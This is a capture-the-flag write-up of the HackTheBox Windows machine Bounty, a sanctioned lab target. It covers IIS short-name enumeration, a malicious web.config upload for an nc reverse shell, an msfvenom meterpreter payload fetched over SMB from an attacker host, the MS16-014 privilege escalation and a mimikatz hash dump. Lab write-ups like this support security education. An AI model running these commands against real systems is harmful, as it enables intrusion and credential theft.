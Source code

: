 ```yaml
---
layout: single
title:  "HTB - Bounty Writeup - 10.10.10.93"
date:   2020-07-27 08:49:23 +0100
categories: hackthebox
excerpt: My walkthrough of the HTB Windows Server 2008 R2 machine Bounty.
---
```

![htb](/images/bounty/htb.png)

# HackTheBox - Bounty - 10.10.10.93

Bounty is an easy rated Windows Server 2008 R2 machine on [hackthebox.eu](https://app.hackthebox.eu).

## Summary

Bounty is an easy to medium difficulty machine, which features an interesting technique to bypass file uploader protections and achieve code execution. This machine also highlights the importance of keeping systems updated with the latest security patches.

## Recon and Scanning
### NMAP Results
![](/images/bounty/nmap.png)

From the ports shown here I can see that this is a Windows Box running [IIS 7.5](https://docs.bmc.com/docs/display/Configipedia/Microsoft+Internet+Information+Services), meaning that we are dealing with a Windows Server 2008 R2 box.  

### IIS Enumeration

As IIS is the only port open we should start there, also, as this is a very outdated version of IIS we can assume that it may be vulnerable to a [this](http://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf), which is a flaw that may lead to an unauthorized information disclosure. The issue is triggered during the parsing of a request that contains a tilde character (~). This may allow a remote attacker to gain access to file and folder name information. We can use [this](https://github.com/irsdl/IIS-ShortName-Scanner) script to figure out if it is vulnerable and to find any hidden file or directories.

The syntax of the command to find out if the IIS version in question is vulnerable is:
{% highlight bash %}
java -jar iis_shortname_scanner.jar http://10.10.10.93
{% endhighlight %}

![](/images/bounty/iis_vulnerable.png)

Now that we know the IIS server is vulnerable we can run the following command to enumerate hidden files and directories:
{% highlight bash %}
java -jar iis_shortname_scanner.jar 2 20 http://10.10.10.93
{% endhighlight %}

![](/images/bounty/iis_files.png)

### Custom Wordlist and GoBuster

Bingo! We have identified two files or directories starting with `tranf` and `upload`, therefore we can grep a directory list for the phrases and create a custom wordlist to use with gobuster.
![](/images/bounty/wordlist.png)

Now that we have a custom wordlist called `words` we can run gobuster, we also know that as this is an IIS Server we should also fuzz for files with a `.aspx` extension.

{% highlight bash %}
gobuster dir -u http://10.10.10.93 -w words -x aspx
{% endhighlight %}

![](/images/bounty/gobuster.png)

Nice, we have identified an `uploadedfiles` directory and the `transfer.aspx` page.

## Getting a Shell with a web.config file

Now that we know there is a page where we can upload files, we can attempt to get a shell using an IIS webshell. 

![](/images/bounty/transfer-aspx.png)

We can also guess that as this is an outdated IIS server we can probably use a web.config payload to get a shell. As the web.config file is not in an aspx format, rather in XML, it is much harder to block by AV. As the `web.config` file is similar to Apache's `.htaccess` file, it stores important settings, this means we can inject malicious code into the file and get execution. This [article](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) explains it very well.

### Creating a Malicious File

Firstly we will need to copy a malicious web.config file from [here](https://gist.github.com/003random/e646a2c3ef47f560f17e1dee0443f685#file-web-config), then we will need to insert code to run a nc reverse shell. 

![](/images/bounty/we-config-file.png)

We will also need to start an smb server to run nc remotely. This can be done using the Impacket `smbserver.py` script.

{% highlight bash %}
smbserver.py shared /usr/share/windows-binaries
{% endhighlight %}

![](/images/bounty/smbserver.png)

### Popping a Shell 

Now we can head over to `transfer.aspx` page and upload our malicious `web.config` file, whilst also starting an nc listener. Then we can go to `http://10.10.10.93/uploadedfiles/web.config`

![](/images/bounty/uploaded-files.png)

![](/images/bounty/shell-1.png)

Bingo! We got a shell!

## Upgrading to a Meterpreter Session

Now that we have a shell, we can generate a meterpreter payload and upgrade to a meterpreter session. Firstly, we need to generate a meterpreter payload and host it on out SMB server. 

### Generating a Meterpreter EXE Payload

{% highlight powershell %}
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.15 LPORT=9002 -f exe > msf.exe
{% endhighlight %}

![](/images/bounty/msf-2.png)

Now that we have a payload, let's setup a listener in Metasploit. 

![](/images/bounty/msf-1.png)

{% highlight powershell %}
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
setg LHOST 10.10.14.15
set LPORT 9002
run
{% endhighlight %}

![](/images/bounty/msf-listner.png)

### Getting a Meterpreter Session 

Now that the listener and payload are ready, we can run it from our smb share. 

{% highlight powershell %}
\\10.10.14.15\shared\msf.exe
{% endhighlight %}

![](/images/bounty/meterpreter-1.png)

Bingo! Now that we have a meterpreter session we can attempt to privesc.

## Privilege Escalation to SYSTEM

As this is a stock `Windows Server 2008 R2` machine we should run the local exploit suggester module within metasploit.

### Post Local Exploit Suggester

{% highlight powershell %}
background
use post/multi/recon/local_exploit_suggester
{% endhighlight %}

![](/images/bounty/local-exploit.png)

`exploit/windows/local/ms16_014_wmi_recv_notif` looks promising so let's try this

### MS16_014_wmi_recv_notif

Let's load up this module as set the following options:
 - LHOST - 10.10.14.15
 - LPORT - 4444
 - SESSION - 1

![](/images/bounty/priv-esc-1.png)

{% highlight powershell %}
run
{% endhighlight %}

![](/images/bounty/shell-system.png)

Bingo, we got a shell as SYSTEM!

## User and Root Flags

Now that we have a shell as system, we can grab both the user and root flags

![](/images/bounty/flags.png)

## Beyond Root

Now that we have rooted the machine we can load mimikatz and dump the SAM hashes

{% highlight powershell %}
load mimikatz
mimikatz_command -f samdump::hashes
{% endhighlight %}

![](/images/bounty/hashdump.png)

## Pwned

![pwned](/images/bounty/pwned.png)

## Respect
If you enjoyed the write up or found it useful consider + repping my htb profile linked below:

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

